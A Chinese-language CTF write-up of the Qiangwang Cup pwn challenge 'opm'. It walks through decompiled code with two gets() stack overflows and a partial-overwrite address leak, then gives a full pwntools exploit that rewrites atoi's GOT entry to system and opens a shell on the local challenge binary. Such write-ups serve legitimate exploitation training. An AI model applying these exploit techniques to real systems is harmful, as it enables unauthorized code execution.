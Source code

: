 ```yaml
---
title: 强网杯opm
date: 2018-08-20 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
```

## opm

强网杯的一道题目当时没做出来。。。
看着像一个堆题目其实是道栈溢出题目，涉及到堆的知识比较少
唯一的技巧点在于巧妙地利用**局部写**
```
    int (__fastcall **add())(__int64 a1)
    {
      _QWORD *v0; // rbx
      __int64 v1; // rbx
      size_t v2; // rax
      __int64 v3; // rbx
      char s[128]; // [rsp+0h] [rbp-1A0h]
      __int64 addr_of_struct[16]; // [rsp+80h] [rbp-120h]
      __int64 addr_of_name[17]; // [rsp+100h] [rbp-A0h]
      unsigned __int64 canary; // [rsp+188h] [rbp-18h]
    
      canary = __readfsqword(0x28u);
      v0 = (_QWORD *)operator new(0x20uLL);
      init_struct((__int64)v0);
      addr_of_struct[0] = (__int64)v0;
      *v0 = say;
      puts("Your name:");                           // func say
                                                    // name_addr->name(heap)
                                                    // len(name)
                                                    // punch
      gets(s);
      v1 = addr_of_struct[0];
      *(_QWORD *)(v1 + 16) = strlen(s);
      v2 = strlen(s);
      addr_of_name[0] = (__int64)malloc(v2);
      strcpy((char *)addr_of_name[0], s);
      *(_QWORD *)(addr_of_struct[0] + 8) = addr_of_name[0];
      puts("N punch?");
      gets(s);
      v3 = addr_of_struct[0];
      *(_DWORD *)(v3 + 0x18) = atoi(s);
      say(addr_of_struct[0]);
      return (int (__fastcall **)(__int64))addr_of_struct[0];
    }
```
两次gets都有溢出
```
    -00000000000001A0 s               db 128 dup(?)
    -0000000000000120 addr_of_struct  dq 16 dup(?)
    -00000000000000A0 addr_of_name    dq 17 dup(?)
    -0000000000000018 canary          dq ?
```
大致栈结构就这样
由于没有free函数，所以对于堆的利用比较局限
思路就是首先将 role1的结构体写到一个地址，然后把role2的结构体写到role1的name字段（堆上），之后把role2的地址也指向role1地址，这样就把role1的name打印出来，于是就可以泄露堆地址了。
由于事先我们并不知道地址是什么样，所以只能通过局部写改写地址的低字节
将role1的低字节覆盖为0010，而后添加role2，先通过第一次溢出把他的结构体搞到role1的name字段，这里可以通过把低字节改写成00做到（需要实现布局好堆结构，具体可以gdbattach调一下），而后再把role2地址改到0010
泄露完之后我们就可以将role指针随意的构造为堆上的地址了，我们最终的目的是把got表修改掉，这样就需要知道got地址和libc地址
泄露got地址主要就是构造一个伪造堆块，使他的name字段指向say函数，这样泄露地址就可以算出程序加载基地址，从而泄露got
libc同样道理
这里需要注意strlen函数以0结尾，所以我们构造的伪造role长度只能为0x10，也就是说会改变下一个堆块的头部（topsize），需要维护好topchunk
改写的话就利用第二次溢出，把地址写到len字段，改写完成
这里可以选择atoi或者strlen
exp：
```python
    from pwn import *
    context.log_level = 'debug'
    io = process('./opm')
    elf = ELF('opm')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(name,punch):
    	io.recvuntil('xit')
    	io.sendline('A')
    	io.recvuntil('name:')
    	io.sendline(name)
    	io.recvuntil('?')
    	io.sendline(punch)
    def show():
    	io.recvuntil('xit')
    	io.sendline('S')
    
    add(0x70*'A','1')
    add(0x80*'B'+'\x10','1')
    add(0x80*'C','A'*0x80+'\x10')
    io.recvuntil('B'*0x8)
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    
    func_addr = leak - 0x30
    fake_chunk_addr = leak + 0xc0
    fake_chunk = 'A'*0x8+p64(func_addr)
    payload = str(0x20171).ljust(0x80,'A') + p64(fake_chunk_addr)
    add(fake_chunk,payload)
    io.recvuntil('<')
    func = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(func))
    proc_addr = func - 0xb30
    atoi_got = proc_addr + elf.got['atoi']
    fake_chunk = 'a'*0x8 + p64(atoi_got)
    payload = str(0x20171 - 0x50).ljust(0x80,'A') + p64(leak + 0xc0 +0x50)
    add(fake_chunk,payload)
    io.recvuntil('<')
    libc_base = u64(io.recvline()[0:6].ljust(8,'\x00')) - libc.symbols['atoi']
    log.success(hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.success(hex(system))
    add('s3cunDa',str(system).ljust(0x80,'A')+p64(atoi_got - 0x18))
    add('s3cunDa','/bin/sh')
    io.interactive()
```
这么简单题我为什么那时候没做出来。。。